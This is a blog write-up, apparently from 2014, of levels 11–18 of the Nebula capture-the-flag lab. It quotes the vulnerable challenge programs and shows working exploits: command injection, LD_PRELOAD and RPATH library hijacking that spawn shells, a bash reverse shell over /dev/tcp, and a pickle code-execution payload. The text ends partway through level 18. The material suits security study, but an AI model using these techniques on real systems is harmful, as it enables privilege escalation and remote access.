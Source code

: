 Cracking Nebula Part 2
######################

:title: Cracking Nebula Part 2
:date: 2014-07-02T00
:modified: 2014-07-02 22
:tags:


On `Exploit Exercises <http://www.exploit-exercises.com/>`_ you can find a 
number of CTF (Capture The Flag) VM images where you can practice your 
exploiting, hacking and general computer savviness. I've been working 
my way through the Nebula machine and figured I might as well write 
up the process both for other's benefit if they get stuck, and also as 
a sort of diary for myself, so I can refer back to any info if I need to.

This continues on from `part 1 <http://unlogic.co.uk/2014/06/24/cracking-nebula-part1/>`_.

Level 11 ##
-----------

> The /home/flag11/flag11 binary processes standard input and executes a shell command.
> 
> There are two ways of completing this level, you may wish to do both :-) 

.. code:: C

	#include <stdlib.h>
	#include <unistd.h>
	#include <string.h>
	#include <sys/types.h>
	#include <fcntl.h>
	#include <stdio.h>
	#include <sys/mman.h>
	
	/*
	 * Return a random, non predictable file, and return the file descriptor for it.
	 */
	
	int getrand(char **path)
	{
	  char *tmp;
	  int pid;
	  int fd;
	
	  srandom(time(NULL));
	
	  tmp = getenv("TEMP");
	  pid = getpid();
	  
	  asprintf(path, "%s/%d.%c%c%c%c%c%c", tmp, pid, 
	    'A' + (random() % 26), '0' + (random() % 10), 
	    'a' + (random() % 26), 'A' + (random() % 26),
	    '0' + (random() % 10), 'a' + (random() % 26));
	
	  fd = open(*path, O_CREAT|O_RDWR, 0600);
	  unlink(*path);
	  return fd;
	}
	
	void process(char *buffer, int length)
	{
	  unsigned int key;
	  int i;
	
	  key = length & 0xff;
	
	  for(i = 0; i < length; i++) {
	    buffer[i] ^= key;
	    key -= buffer[i];
	  }
	
	  system(buffer);
	}
	
	#define CL "Content-Length: "
	
	int main(int argc, char **argv)
	{
	  char line[256];
	  char buf[1024];
	  char *mem;
	  int length;
	  int fd;
	  char *path;
	
	  if(fgets(line, sizeof(line), stdin) == NULL) {
	    errx(1, "reading from stdin");
	  }
	
	  if(strncmp(line, CL, strlen(CL)) != 0) {
	    errx(1, "invalid header");
	  }
	
	  length = atoi(line + strlen(CL));
	  
	  if(length < sizeof(buf)) {
	    if(fread(buf, length, 1, stdin) != length) {
	      err(1, "fread length");
	    }
	    process(buf, length);
	  } else {
	    int blue = length;
	    int pink;
	
	    fd = getrand(&path);
	
	    while(blue > 0) {
	      printf("blue = %d, length = %d, ", blue, length);
	
	      pink = fread(buf, 1, sizeof(buf), stdin);
	      printf("pink = %d\n", pink);
	
	      if(pink <= 0) {
	        err(1, "fread fail(blue = %d, length = %d)", blue, length);
	      }
	      write(fd, buf, pink);
	
	      blue -= pink;
	    }  
	
	    mem = mmap(NULL, length, PROT_READ|PROT_WRITE, MAP_PRIVATE, fd, 0);
	    if(mem == MAP_FAILED) {
	      err(1, "mmap");
	    }
	    process(mem, length);
	  }
	
	}

I'll be honest with you and admit that I had a lot of trouble with this. I eventually looked up how to do this on other blogs, but still couldn't get it to work. After some searching I believe it's down to the bash version my VM is running. The exploit was possible due to some feature in older versions of bash, but not in the version I have. If you would like to read how to get level 11 you can do so here: `http://www.kroosec.com/2012/11/nebula-level11.html <http://www.kroosec.com/2012/11/nebula-level11.html>`_

level 12 ##
-----------

> There is a backdoor process listening on port 50001. 

.. code:: C

	local socket = require("socket")
	local server = assert(socket.bind("127.0.0.1", 50001))
	
	function hash(password) 
	  prog = io.popen("echo "..password.." | sha1sum", "r")
	  data = prog:read("*all")
	  prog:close()
	
	  data = string.sub(data, 1, 40)
	
	  return data
	end
	
	
	while 1 do
	  local client = server:accept()
	  client:send("Password: ")
	  client:settimeout(60)
	  local line, err = client:receive()
	  if not err then
	    print("trying " .. line) -- log from where ;\
	    local h = hash(line)
	
	    if h ~= "4754a4f4bd5787accd33de887b9250a0691dd198" then
	      client:send("Better luck next time\n");
	    else
	      client:send("Congrats, your token is 413**CARRIER LOST**\n")
	    end
	
	  end
	
	  client:close()
	end

So we need to connect to the localhost on port 50001 and enter the correct password. the password is whatever the hash is in plain text. But even if we get it right you can see that we don't get our token. With a specially crafted password however, we can make use of the :code:`io.popen` call.

.. code:: console

	level12@nebula:/home/flag12$ nc localhost 50001
	Password: hello && getflag > /tmp/out
	Better luck next time
	level12@nebula:/home/flag12$ cat /tmp/out
	You have successfully executed getflag on a target account

Level 13 ##
-----------

> There is a security check that prevents the program from continuing execution if the user invoking it does not match a specific user id. 

.. code:: C

	#include <stdlib.h>
	#include <unistd.h>
	#include <stdio.h>
	#include <sys/types.h>
	#include <string.h>
	
	#define FAKEUID 1000
	
	int main(int argc, char **argv, char **envp)
	{
	  int c;
	  char token[256];
	
	  if(getuid() != FAKEUID) {
	    printf("Security failure detected. UID %d started us, we expect %d\n", getuid(), FAKEUID);
	    printf("The system administrators will be notified of this violation\n");
	    exit(EXIT_FAILURE);
	  }
	
	  // snip, sorry :)
	
	  printf("your token is %s\n", token);
	  
	}

Here we need to fake our UID. Sounds tricky. Actually, we don't fake our UID, we fake the call to :code:`getuid`. How?
:code:`getuid` is called from a library, which means we are able to replace it with our own library. Let's take a look at
the function definition of :code:`getuid`

.. code:: console

	GETUID(2)                  Linux Programmer's Manual                 GETUID(2)
	
	NAME
	       getuid, geteuid - get user identity
	
	SYNOPSIS
	       #include <unistd.h>
	       #include <sys/types.h>
	
	       uid_t getuid(void);
	       uid_t geteuid(void);

Ok, so let's write our verison of:

.. code:: C

	#include <sys/types.h>
	
	uid_t getuid(void) { return 1000; }

and compile it as a shared library which we then preload (see :code:`man ld.so` for more info on this). We need to
copy the :code:`flag13` binary to our local directory because it needs to be run as the same user level as the 
library we are trying to preload.

.. code:: console

	level13@nebula:/tmp$ gcc -shared -fPIC fake.c -o fetgetuid.so
	level13@nebula:/tmp$ cp ~flag13/flag13 .
	level13@nebula:/tmp$ export LD_PRELOAD=/tmp/fetgetuid.so
	level13@nebula:/tmp$ ./flag13
	your token is b705702b-76a8-42b0-8844-3adabbe5ac58
	level13@nebula:/tmp$ ssh flag13@localhost
	flag13@localhost's password: b705702b-76a8-42b0-8844-3adabbe5ac58
	flag13@nebula:~$ getflag
	You have successfully executed getflag on a target account

Level 14 ##
-----------

 > This program resides in /home/flag14/flag14 . It encrypts input and writes it to standard output. An encrypted token file is also in that home directory, decrypt it :) 

The contents of :code:`token` were encrypted using the :code:`flag14` binary in :code:`~flag14`. If you run it you can see how it works. Let's enter something and see if we can work out how it works. I created a file with the contents :code:`abcdefghijklmno` in :code:`/tmp/test`

.. code:: console

	 level14@nebula:/home/flag14$ cat /tmp/test | ./flag14 -e
	acegikmoqsuwy{}level14@nebula:/home/flag14$

So luckily it's fairly straightforward, it offsets each letter by the value of its position in the string. A quick Python script can reverse the process.

.. code:: python

	 import sys
	
	def decrypt(input):
	  out = ''
	  for i, c in enumerate(input):
	    dec = ord(c) - i
	    out += chr(dec)
	
	  print out
	
	
	if __name__ == '__main__':
	  input = sys.argv[1]
	  print input
	  decrypt(input)

And now pipe the token into it

.. code:: console

	level14@nebula:/home/flag14$ python /tmp/decrypt.py 857:g67?5ABBo:BtDA?tIvLDKL{MQPSRQWW.
	857:g67?5ABBo:BtDA?tIvLDKL{MQPSRQWW.
	8457c118-887c-4e40-a5a6-33a25353165
	
	level14@nebula:/home/flag14$ ssh flag14@localhost
	
	flag14@localhost's password: 8457c118-887c-4e40-a5a6-33a25353165
	
	flag14@nebula:~$ getflag
	You have successfully executed getflag on a target account

Level 15 ##
-----------

> strace the binary at /home/flag15/flag15 and see if you spot anything out of the ordinary.
> 
> You may wish to review how to "compile a shared library in linux" and how the libraries are loaded and processed by reviewing the dlopen manpage in depth.
> 
> Clean up after yourself :) 

After running :code:`strace` we notice this particular bit

.. code:: console

	level15@nebula:/home/flag15$ strace ./flag15
	.
	.
	open("/var/tmp/flag15/tls/i686/sse2/libc.so.6", O_RDONLY) = -1 ENOENT (No such file or directory)
	stat64("/var/tmp/flag15/tls/i686/sse2", 0xbfdb8ba4) = -1 ENOENT (No such file or directory)
	open("/var/tmp/flag15/tls/i686/cmov/libc.so.6", O_RDONLY) = -1 ENOENT (No such file or directory)
	.
	.

It's trying to load libc.so.6 from a specific location. Why is that? Let's use :code:`readelf` to take a look

.. code:: console

	evel15@nebula:/home/flag15$ readelf -d ./flag15
	
	Dynamic section at offset 0xf20 contains 21 entries:
	  Tag        Type                         Name/Value
	 0x00000001 (NEEDED)                     Shared library: [libc.so.6]
	 0x0000000f (RPATH)                      Library rpath: [/var/tmp/flag15]
	 0x0000000c (INIT)                       0x80482c0
	 .
	 .
	 .

So it's got an :code:`RPATH` to that location and as luck would have it we have write permissions to it. I guess we can create our own :code:`libc.so.6` in that directory and use it to execute some code - like get ourselves a flag15 shell. Let's take a look at what symbols we're actually using

.. code:: console

	level15@nebula:/home/flag15$ objdump -R flag15
	
	flag15:     file format elf32-i386
	
	DYNAMIC RELOCATION RECORDS
	OFFSET   TYPE              VALUE
	08049ff0 R_386_GLOB_DAT    __gmon_start__
	0804a000 R_386_JUMP_SLOT   puts
	0804a004 R_386_JUMP_SLOT   __gmon_start__
	0804a008 R_386_JUMP_SLOT   __libc_start_main

So we've got a choice here between :code:`__libc_start_main` or :code:`__gmon_start`. As I am more comfortable with :code:`__libc_start_main` I'm going to go with this.

So let us begin with the code for our library by looking up the `function declaration <http://refspecs.linuxbase.org/LSB_3.1.1/LSB-Core-generic/LSB-Core-generic/baselib---libc-start-main-.html>`_

.. code:: C

	#include <linux/unistd.h>
	
	int __libc_start_main(int (*main) (int, char **, char **), 
	int argc, char *argv, void (*init) (void), void (*fini) 
	(void), void (*rtld_fini) (void), void *stack_end) {
	  system("/bin/sh");
	}

In theory we should get a shell now

.. code:: console

	level15@nebula:/var/tmp/flag15$ gcc -shared -fPIC -o libc.so.6 mylibc.c
	level15@nebula:/var/tmp/flag15$ ~flag15/flag15
	/home/flag15/flag15: /var/tmp/flag15/libc.so.6: no version information available (required by /home/flag15/flag15)
	/home/flag15/flag15: /var/tmp/flag15/libc.so.6: no version information available (required by /var/tmp/flag15/libc.so.6)
	/home/flag15/flag15: /var/tmp/flag15/libc.so.6: no version information available (required by /var/tmp/flag15/libc.so.6)
	/home/flag15/flag15: relocation error: /var/tmp/flag15/libc.so.6: symbol __cxa_finalize, version GLIBC_2.1.3 not defined in file libc.so.6 with link time reference

Nuts, we have a symbol missing, namely :code:`__cxa_finalize`. Let's add it an try again

.. code:: C

	#include <linux/unistd.h>
	
	void __cxa_finalize (void *d) {
	    return;
	}
	
	int __libc_start_main(int (*main) (int, char **, char **), 
	int argc, char *argv, void (*init) (void), void (*fini) 
	(void), void (*rtld_fini) (void), void *stack_end) {
	    system("/bin/sh");
	}

.. code:: console

	level15@nebula:/var/tmp/flag15$ gcc -shared -fPIC -o libc.so.6 mylibc.c
	level15@nebula:/var/tmp/flag15$ ~flag15/flag15
	/home/flag15/flag15: /var/tmp/flag15/libc.so.6: no version information available (required by /home/flag15/flag15)
	/home/flag15/flag15: /var/tmp/flag15/libc.so.6: no version information available (required by /var/tmp/flag15/libc.so.6)
	/home/flag15/flag15: relocation error: /var/tmp/flag15/libc.so.6: symbol system, version GLIBC_2.0 not defined in file libc.so.6 with link time reference

What? I realise we are slowly approaching the limits of my capabilities of dealing with Linux's demands. I searched around and found out about `version scripts <http://ftp.gnu.org/old-gnu/Manuals/ld-2.9.1/html_node/ld_25.html>`_. Let's hope it works

.. code:: console

	level15@nebula:/var/tmp/flag15$ cat version
	GLIBC_2.0 { };
	level15@nebula:/var/tmp/flag15$ gcc -shared -fPIC -o libc.so.6 mylibc.c -Wl,--version-script=version
	level15@nebula:/var/tmp/flag15$ ~flag15/flag15
	/home/flag15/flag15: relocation error: /var/tmp/flag15/libc.so.6: symbol system, version GLIBC_2.0 not defined in file libc.so.6 with link time reference

*sigh* - symbol :code:`system` is missing. Ok, let's just build it statically and wrap it all up so we've got everything we need. From :code:`man gcc`

> **-static-libgcc**
>           On systems that provide libgcc as a shared library, these options force the use of either the shared or 
>           static version respectively.  If no shared version of libgcc
>           was built when the compiler was configured, these options have no effect.

So really we can also get rid of our implementation of :code:`__cxa_finalize` as it's all statically linked now.

.. code:: console

	level15@nebula:/var/tmp/flag15$ gcc -fPIC -shared -static-libgcc -Wl,--version-script=version,-Bstatic -o libc.so.6 mylibc.c
	level15@nebula:/var/tmp/flag15$ ~flag15/flag15
	sh-4.2$ whoami
	flag15
	sh-4.2$ getflag
	You have successfully executed getflag on a target account

Level 16 ##
-----------

> There is a perl script running on port 1616.

.. code:: perl

	#!/usr/bin/env perl
	
	use CGI qw{param};
	
	print "Content-type: text/html\n\n";
	
	sub login {
	  $username = $_[0];
	  $password = $_[1];
	
	  $username =~ tr/a-z/A-Z/;  # conver to uppercase
	  $username =~ s/\s.*//;    # strip everything after a space
	
	  @output = `egrep "^$username" /home/flag16/userdb.txt 2>&1`;
	  foreach $line (@output) {
	    ($usr, $pw) = split(/:/, $line);
	  
	
	    if($pw =~ $password) { 
	      return 1;
	    }
	  }
	
	  return 0;
	}
	
	sub htmlz {
	  print("<html><head><title>Login resuls</title></head><body>");
	  if($_[0] == 1) {
	    print("Your login was accepted<br/>");
	  } else {
	    print("Your login failed<br/>");
	  }  
	  print("Would you like a cookie?<br/><br/></body></html>\n");
	}
	
	htmlz(login(param("username"), param("password")));

So quickly looking at the script we know that we need to pass :code:`username` and :code:`password` in as URL parameters. It then does some uppercase conversion of the username, strips the whitespace and greps for the username in a file called :code:`userdb.txt`. Taking a look at this file we notice it's empty, so we need a different exploit. The obvious place here is the :code:`egrep` call as it accepts our username. But we need to do some twiddling in order to get it working with the uppercase and whitespace strip.

One idea is to use bash's feature that allows us to run a command with a wildcard in the path. For example you can run :code:`/bin/ls` with :code:`/*/ls` instead. This 
gets us around the uppercase limitation as we can create an uppercase command
at a path we can write to. I've chosen :code:`/tmp` as my target.
I'm going to create a reverse shell to a listening port. First off I login to level16 again (or somewhere else on the network) and run

.. code:: console

	level16@nebula:~$ nc -l 1337

To create a netcat listener on port *1337*

Next I construct the payload for the script

.. code:: console

	level16@nebula:/home/flag16$ cat /tmp/RSHELL
	#!/bin/bash
	bash -i >& /dev/tcp/192.168.56.101/1337 0>&1
	level16@nebula:/home/flag16$ chmod +x /tmp/SHELL

Note the uppercase filename, this is important as our username gets uppercased. The command in the script is a standard bash reverse shell. Now we pass the wildcard script path to the Perl script with backticks so it gets evaluated.

.. code:: console

	http://192.168.56.101:1616/index.cgi?username=%60/*/RSHELL%60&password=test2

Back in the shell where we launched the netcat listener we do the following (the :code:`whoami` is just to confirm I am the right user)

.. code:: console

	level16@nebula:~$ nc -l 1337
	bash: no job control in this shell
	flag16@nebula:/home/flag16$ getflag
	getflag
	You have successfully executed getflag on a target account
	flag16@nebula:/home/flag16$ whoami
	whoami
	flag16

Level 17 ##
-----------

> There is a python script listening on port 10007 that contains a vulnerability. 

.. code:: python

	#!/usr/bin/python
	
	import os
	import pickle
	import time
	import socket
	import signal
	
	signal.signal(signal.SIGCHLD, signal.SIG_IGN)
	
	def server(skt):
	  line = skt.recv(1024)
	
	  obj = pickle.loads(line)
	
	  for i in obj:
	    clnt.send("why did you send me " + i + "?\n")
	
	skt = socket.socket(socket.AF_INET, socket.SOCK_STREAM, 0)
	skt.bind(('0.0.0.0', 10007))
	skt.listen(10)
	
	while True:
	  clnt, addr = skt.accept()
	
	  if(os.fork() == 0):
	    clnt.send("Accepted connection from %s:%d" % (addr[0], addr[1]))
	    server(clnt)
	    exit(1)

Here `pickle` provides us with the possibility of an exploit to run our own code. There's lots to read on the security issues with `pickle`, but to be fair it was never meant to be secure in itself. [BH_US_11_Slaviero_Sour_Pickles_WP.pdf](https://media.blackhat.com/bh-us-11/Slaviero/BH_US_11_Slaviero_Sour_Pickles_WP.pdf) and `BH_US_11_Slaviero_Sour_Pickles_Slides.pdf <https://media.blackhat.com/bh-us-11/Slaviero/BH_US_11_Slaviero_Sour_Pickles_Slides.pdf>`_ are a good source for more info.

Right, so my plan is to get a shell as *flag17* and get the flag from there. Using pickle's opcodes I can construct a string that will run :code:`getflag` from the :code:`pickle.loads` call as user *flag17*. So before I started constructing this I copied the script and ran it as *level17* on a different port in order to debug and see what's going on. Once I was happy with my exploit code I changed the port to :code:`10007` and ran it to get the flag.

.. code:: python

	#!/bin/python
	import socket
	
	skt = socket.socket(socket.AF_INET, socket.SOCK_STREAM, 0)
	skt.connect(('localhost', 10007))
	print skt
	data = skt.recv(1024)
	print data
	sent = skt.send("cos\nsystem\n(S'/bin/bash -c /bin/getflag > /tmp/f17pwned'\ntR\n")
	print sent
	data = skt.recv(1024)
	print data
	skt.close()

I'll explain the pickle string a bit: 

* :code:`cos\nsystem` resolves the classname and calls it
* :code:`(` is the marker
* :code:`S'/bin/bash -c /bin/getflag > /tmp/f17pwned'\n` this is our command we want to run
* :code:`tR\n` - :code:`t` puts the string onto the stack and :code:`R` pops this tuple and calls it, thus executing our lovingly crafted payload.

Once run it looks like it worked so let's be sure

.. code:: console

	level17@nebula:/tmp/flag17$ cat ../f17pwned
	You have successfully executed getflag on a target account

Level 18 ##
-----------

> Analyse the C program, and look for vulnerabilities in the program. There is an easy way to solve this level, an intermediate way to solve it, and a more difficult/unreliable way to solve it. 

.. code:: C

	#include <stdlib.h>
	#include <unistd.h>
	#include <string.h>
	#include <stdio.h>
	#include <sys/types.h>
	#include <fcntl.h>
	#include <getopt.h>
	
	struct {
	  FILE *debugfile;
	  int verbose;
	  int loggedin;
	} globals;
	
	#define dprintf(...) if(globals.debugfile) \
	  fprintf(globals.debugfile, __VA_ARGS__)
	#define dvprintf(num, ...) if(globals.debugfile && globals.verbose >= num) \
	  fprintf(globals.debugfile, __VA_ARGS__)
	
	#define PWFILE "/home/flag18/password"
	
	void login(char *pw)
	{
	  FILE *fp;
	
	  fp = fopen(PWFILE, "r");
	  if(fp) {
	    char file[64];
	
	    if(fgets(file, sizeof(file) - 1, fp) == NULL) {
	      dprintf("Unable to read password file %s\n", PWFILE);
	      return;
	    }
	                fclose(fp);
	    if(strcmp(pw, file) != 0) return;    
	  }
	  dprintf("logged in successfully (with%s password file)\n", 
	    fp == NULL ? "out" : "");
	  
	  globals.loggedin = 1;
	
	}
	
	void notsupported(char *what)
	{
	  char *buffer = NULL;
	  asprintf(&buffer, "--> [%s] is unsupported at this current time.\n", what);
	  dprintf(what);
	  free(buffer);
	}
	
	void setuser(char *user)
	{
	  char msg[128];
	
	  sprintf(msg, "unable to set user to '%s' -- not supported.\n", user);
	  printf("%s\n", msg);
	
	}
	
	int main(int argc, char **argv, char **envp)
	{
	  char c;
	
	  while((c = getopt(argc, argv, "d:v")) != -1) {
	    switch(c) {
	      case 'd':
	        globals.debugfile = fopen(optarg, "w+");
	        if(globals.debugfile == NULL) err(1, "Unable to open %s", optarg);
	        setvbuf(globals.debugfile, NULL, _IONBF, 0);
	        break;
	      case 'v':
	        globals.verbose++;
	        break;
	    }
	  }
	
	  dprintf("Starting up. Verbose level = %d\n", globals.verbose);
	
	  setresgid(getegid(), getegid(), getegid());
	  setresuid(geteuid(), geteuid(), geteuid());
	  
	  while(1) {
	    char line[256];
	    char *p, *q;
	
	    q = fgets(line, sizeof(line)-1, stdin);
	    if(q == NULL) break;
	    p = strchr(line, '\n'); if(p) *p = 0;
	    p = strchr(line, '\r'); if(p) *p = 0;
	
	    dvprintf(2, "got [%s] as input\n", line);
	
	    if(strncmp(line, "login", 5) == 0) {
	      dvprintf(3, "attempting to login\n");
	      login(line + 6);
	    } else if(strncmp(line, "logout", 6) == 0) {
	      globals.loggedin = 0;
	    } else if(strncmp(line, "shell", 5) == 0) {
	      dvprintf(3, "attempting to start shell\n");
	      if(globals.loggedin) {
	        execve("/bin/sh", argv, envp);
	        err(1, "unable to execve");
	      }
	      dprintf("Permission denied\n");
	    } else if(strncmp(line, "logout", 4) == 0) {
	      globals.loggedin = 0;
	    } else if(strncmp(line, "closelog", 8) == 0) {
	      if(globals.debugfile) fclose(globals.debugfile);
	      globals.debugfile = NULL;
	    } else if(strncmp(line, "site exec", 9) == 0) {
	      notsupported(line + 10);
	    } else if(strncmp(line, "setuser", 7) == 0) {
	      setuser(line + 8);
	    }
	  }
	
	  return 0;
	}

This is quite a lot a of code, but let's see what it does. The program accepts 
two arguments :code:`-v` and :code:`-d` which increase verbosity level and set a debug file
respectively. If you launch it with :code:`flag18 -v -v -v -d /tmp/debug` and then
:code:`tail -f /tmp/debug` you can see what's going on. I used 3 :code:`-v` because that's
the max debug level to be sure to capture everything.

Once it's running there's a number of commands we can issue. These are probably
going to give us something to poke around with. We can try to get a shell with
the *shell* command, but that means we need to be logged in. I'll make a 
note of that. The :code:`setuser` function has a fixed sized buffer. Let's try to 
overflow that

.. code:: console

	level18@nebula:/home/flag18$ python -c "print('setuser ' + 'A'*128)" | ./flag18 -v -v -v -d /tmp/flag18/debug
	*** buffer overflow detected ***: ./flag18 terminated
	======= Backtrace: =========
	/lib/i386-linux-gnu/libc.so.6(__fortify_fail+0x45)[0x6998d5]
	/lib/i386-linux-gnu/libc.so.6(+0xe66d7)[0x6986d7]
	/lib/i386-linux-gnu/libc.so.6(+0xe5d35)[0x697d35]
	/lib/i386-linux-gnu/libc.so.6(_IO_default_xsputn+0x91)[0x61df91]
	/lib/i386-linux-gnu/libc.so.6(_IO_vfprintf+0x31d5)[0x5f5305]
	/lib/i386-linux-gnu/libc.so.6(__vsprintf_chk+0xc9)[0x697e09]
	/lib/i386-linux-gnu/libc.so.6(__sprintf_chk+0x2f)[0x697d1f]
	./flag18[0x8048df5]
	./flag18[0x8048b1b]
	/lib/i386-linux-gnu/libc.so.6(__libc_start_main+0xf3)[0x5cb113]
	./flag18[0x8048bb1]
	======= Memory map: ========
	005b2000-00728000 r-xp 00000000 07:00 44973      /lib/i386-linux-gnu/libc-2.13.so
	00728000-0072a000 r--p 00176000 07:00 44973      /lib/i386-linux-gnu/libc-2.13.so
	0072a000-0072b000 rw-p 00178000 07:00 44973      /lib/i386-linux-gnu/libc-2.13.so
	0072b000-0072e000 rw-p 00000000 00:00 0
	0079b000-007b9000 r-xp 00000000 07:00 44978      /lib/i386-linux-gnu/ld-2.13.so
	007b9000-007ba000 r--p 0001d000 07:00 44978      /lib/i386-linux-gnu/ld-2.13.so
	007ba000-007bb000 rw-p 0001e000 07:00 44978      /lib/i386-linux-gnu/ld-2.13.so
	007fd000-007fe000 r-xp 00000000 00:00 0          [vdso]
	00886000-008a2000 r-xp 00000000 07:00 45092      /lib/i386-linux-gnu/libgcc_s.so.1
	008a2000-008a3000 r--p 0001b000 07:00 45092      /lib/i386-linux-gnu/libgcc_s.so.1
	008a3000-008a4000 rw-p 0001c000 07:00 45092      /lib/i386-linux-gnu/libgcc_s.so.1
	08048000-0804a000 r-xp 00000000 07:00 12922      /home/flag18/flag18
	0804a000-0804b000 r--p 00001000 07:00 12922      /home/flag18/flag18
	0804b000-0804c000 rw-p 00002000 07:00 12922      /home/flag18/flag18
	099f9000-09a1a000 rw-p 00000000 00:00 0          [heap]
	b7832000-b7833000 rw-p 00000000 00:00 0
	b783b000-b783e000 rw-p 00000000 00:00 0
	bf8bf000-bf8e0000 rw-p 00000000 00:00 0          [stack]
	Aborted

This led me to learn about `stack canaries <https://en.wikipedia.org/wiki/Stack_canary#Stack_canaries>`_, and with this we're out of luck
(for a simple solution). This means the code has been compiled with 
*FORTIFY_SOURCE* and this also going to prevent string formatting exploits in
the :code:`notsupported` function.

.. code:: console

	level18@nebula:/home/flag18$ ./flag18 -v -v -v -d /tmp/flag18/debug
	site exec %n
	*** %n in writable segment detected ***
	Aborted

Yup. In the process of researching this I also discovered a neat tool called
`checksec.sh <http://trapkit.de/tools/checksec.html>`_ that can help identify these compiler options early on.

So what have we got left? The function that checks the password file. If it's
not actually able to find the password file, it will log us in. Unfortunately 
we're not able to delete it. However we can make the :code:`fopen` call fail another
way. This error has happened a lot at work where we often deal with a lot of 
files being open on a single system. Linux systems have a limit as to how
many filedescriptors it can have open at any one time. Because
the tool doesn't close the file descriptors until you call :code:`closelog`, 
we can just keep opening files until we hit the limit. Let's see what that
limit is.

.. code:: console

	level18@nebula:/home/flag18$ ulimit -a
	core file size          (blocks, -c) 0
	data seg size           (kbytes, -d) unlimited
	scheduling priority             (-e) 0
	file size               (blocks, -f) unlimited
	pending signals                 (-i) 1817
	max locked memory       (kbytes, -l) 64
	max memory size         (kbytes, -m) unlimited
	open files                      (-n) 1024
	pipe size            (512 bytes, -p) 8
	POSIX message queues     (bytes, -q) 819200
	real-time priority              (-r) 0
	stack size              (kbytes, -s) 8192
	cpu time               (seconds, -t) unlimited
	max user processes              (-u) 1817
	virtual memory          (kbytes, -v) unlimited
	file locks                      (-x) unlimited

*1024* is the limit. So let's open 1024 files and see what happens. As we have
a few file descriptors open already we just need to open 1021 more.

.. code:: console

	level18@nebula:/home/flag18$ python -c "print('login me\n'*1021 + 'shell')" | ./flag18 -v -d /tmp/flag18/debug
	./flag18: error while loading shared libraries: libncurses.so.5: cannot open shared object file: Error 24

Ah, so many file descriptors we can't open any more, not even to shared libraries.
We can close one and see how that goes.

.. code:: console

	level18@nebula:/home/flag18$ python -c "print('login me\n'*1021 + 'closelog\n' + 'shell')" | ./flag18 -v -d /tmp/flag18/debug
	./flag18: -d: invalid option
	Usage:	./flag18 [GNU long option] [option] ...
		./flag18 [GNU long option] [option] script-file ...
	GNU long options:
		--debug
		--debugger
		--dump-po-strings
		--dump-strings
		--help
		--init-file
		--login
		--noediting
		--noprofile
		--norc
		--posix
		--protected
		--rcfile
		--restricted
		--verbose
		--version
	Shell options:
		-irsD or -c command or -O shopt_option		(invocation only)
		-abefhkmnptuvxBCHP or -o option

Right, so we need to remember that we're running :code:`sh` here, and our arguments
are being passed to it. Unfortunately :code:`-d` and such are not valid here. 
Time to read the manual....

> **--rcfile file**
> 
> Execute commands from file instead of the system wide 
> initialization file /etc/bash.bashrc and the standard personal 
> initialization file ~/.bashrc if the shell is interactive 
> (see INVOCATION below).

Ok, well, it's worth a shot.

.. code:: console

	level18@nebula:/home/flag18$ python -c "print('login me\n'*1021 + 'closelog\n' + 'shell')" | ./flag18 --rcfile -d /tmp/flag18/debug
	./flag18: invalid option -- '-'
	./flag18: invalid option -- 'r'
